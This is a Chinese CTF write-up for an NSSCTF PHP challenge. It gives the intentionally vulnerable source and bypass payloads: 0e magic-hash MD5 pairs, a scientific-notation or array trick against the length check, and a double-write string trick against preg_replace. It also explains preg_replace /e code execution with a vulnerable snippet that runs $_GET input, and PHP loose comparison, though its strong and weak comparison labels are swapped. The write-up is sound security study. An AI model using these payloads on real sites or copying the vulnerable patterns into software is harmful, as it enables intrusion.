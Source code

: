 # php

<https://www.nssctf.cn/problem/3083>

```php
<?php
    session_start();
    highlight_file(__FILE__);
    if(isset($_GET['num'])){
        if(strlen($_GET['num'])<=3&&$_GET['num']>999999999){
            echo ":D";
            $_SESSION['L1'] = 1;
        }else{
            echo ":C";
        }
    }
    if(isset($_GET['str'])){
        $str = preg_replace('/NSSCTF/',"",$_GET['str']);
        if($str === "NSSCTF"){
            echo "wow";
            $_SESSION['L2'] = 1;
        }else{
            echo $str;
        }
    }
    if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){
        if($_POST['md5_1']!==$_POST['md5_2']&&md5($_POST['md5_1'])==md5($_POST['md5_2'])){
            echo "Nice!";
            if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){
                if(is_string($_POST['md5_1'])&&is_string($_POST['md5_2'])){
                    echo "yoxi!";
                    $_SESSION['L3'] = 1;
                }else{
                    echo "X(";
                }
            }
        }else{
            echo "G";
            echo $_POST['md5_1']."\n".$_POST['md5_2'];
        }
    }
    if(isset($_SESSION['L1'])&&isset($_SESSION['L2'])&&isset($_SESSION['L3'])){
        include('flag.php');
        echo $flag;
    }

    
?>
```

```md
MD5值
md5("s1885207154a") => 0e509367213418206700842008763514
md5("s1836677006a") => 0e481036490867661113260034900752
```

二者都是0e开头，在php中0e会被当做科学计数法，就算后面有字母，其结果也是0，所以上面的if判断结果使true，成功绕过

```md
?num=1e9 科学计数法

?num[]=1 数组绕过
str=NSSNSSCTFCTF&md5_1=s1885207154a&md5_2=s1836677006a
md5_1=QNKCDZO&md5_2=240610708
```

session_start(); 是 PHP 中的一个函数调用，用于开始一个会话（session）。在 PHP 中，会话是一种机制，用于存储特定用户的变量或数据，以便在整个应用程序的不同页面之间共享这些数据。

## preg_replace

原文<https://blog.csdn.net/giaogiao123/article/details/121217533>

```php
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

preg_replace 是 PHP 中的一个正则表达式替换函数，用于在字符串中搜索符合正则表达式的模式，并用新的字符串替换这些模式。
preg_replace (正则表达式, 替换成什么东西, 目标字符串, 最大替换次数【默认-1，无数次】, 替换次数)

会对双引号里面的东西进行替换 "${phpinfo()}"  单引号则不会 '${phpinfo()}'

### 出现漏洞的条件

```md
1./e修饰符必不可少
2.你必须让 subject 中有 pattern 的匹配。
3.可能跟php版本有关系
4.满足可变变量的条件：也就是双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果比如说 'strtolower("\1")'
```

特别说明： /e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。

提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。

受用条件也只限于5.5到5.6的php版本

```php
var_dump(phpinfo()); // 结果：布尔 true
var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'
var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
```

```php
<?php
$data = $_GET['data']; 
preg_replace('/(.*)/e', '\\1', $data); 
?>
```

第一个/是正则表达式定界符, ()表示子表达式, .表示非换行符的任意字符, *表示匹配前面的

在上述示例中，preg_replace 函数会将 (.*) 匹配到的内容（即 ${phpinfo()}）作为 PHP 代码执行。这里利用了 PHP 的可变变量特性，${phpinfo()} 中的 phpinfo() 会先被执行，然后其返回的结果再被进一步处理。
需要注意的是，这种漏洞可能导致严重的安全问题; 

## 弱类型比较

与强类型比较符相对的是 弱类型比较运算符，弱类型比较运算符是指 PHP 在进行比较操作时，当操作数的数据类型不同时，PHP 将尝试将 依据一定的规则将操作数的数据类型进行统一。

```php
# 强类型比较运算符
var_dump('4949' == 4949);
//在 PHP8 版本中运行
//'4949Hello' == 4949
//得到的结果将为 false
var_dump('4949Hello' == 4949);

# 弱类型比较运算符
var_dump('4949' === 4949);
var_dump('4949Hello' === 4949);
bool(true)
bool(true)
bool(false)
bool(false)
```

## 待学习

一句话木马

<https://blog.csdn.net/giaogiao123/article/details/119513378?spm=1001.2014.3001.5501>